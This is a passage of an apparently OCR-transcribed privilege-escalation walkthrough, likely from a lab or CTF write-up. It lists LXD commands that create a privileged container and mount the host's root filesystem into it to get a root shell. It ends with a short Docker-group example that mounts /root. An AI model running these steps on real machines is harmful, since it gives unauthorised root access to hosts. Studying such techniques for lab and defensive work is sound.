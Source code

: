 2. **Unzipping Alpine Image:**
   - Command: 
     ```sh
     unzip alpine.zip
     ```
   - Output: Archive extraction details.

3. **LXD Initialization:**
   - Command: 
     ```sh
     lxd init
     ```
   - Prompts:
     - Configure new storage pool? (yes)
     - Storage backend (dir)
     - LXD over the network? (no)
     - Configure LXD bridge? (yes)

   - Error: `/usr/sbin/dpkg-reconfigure` must be run as root.

4. **Import Local Image:**
   - Command: 
     ```sh
     lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
     ```
   - Output: Image imported with fingerprint `be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b`

5. **Start Privileged Container:**
   - Command: 
     ```sh
     lxc init alpine r00t -c security.privileged=true
     ```
   - Output: Container `r00t` created.

6. **Mount Host File System:**
   - Command: 
     ```sh
     lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
     ```
   - Output: Device `mydev` added to `r00t`.

7. **Spawn Shell Inside Container:**
   - Commands:
 ```sh
lxc start r00t
 ```
       
```sh
lxc exec r00t /bin/sh
```
   - Output: Access inside the container with root privileges.

8. **Docker Group Exploitation:**
   - Members in the docker
   - group have root-level access.
   - Example Docker command: 
```sh
     docker run -v /root:/mnt -it ubuntu
```
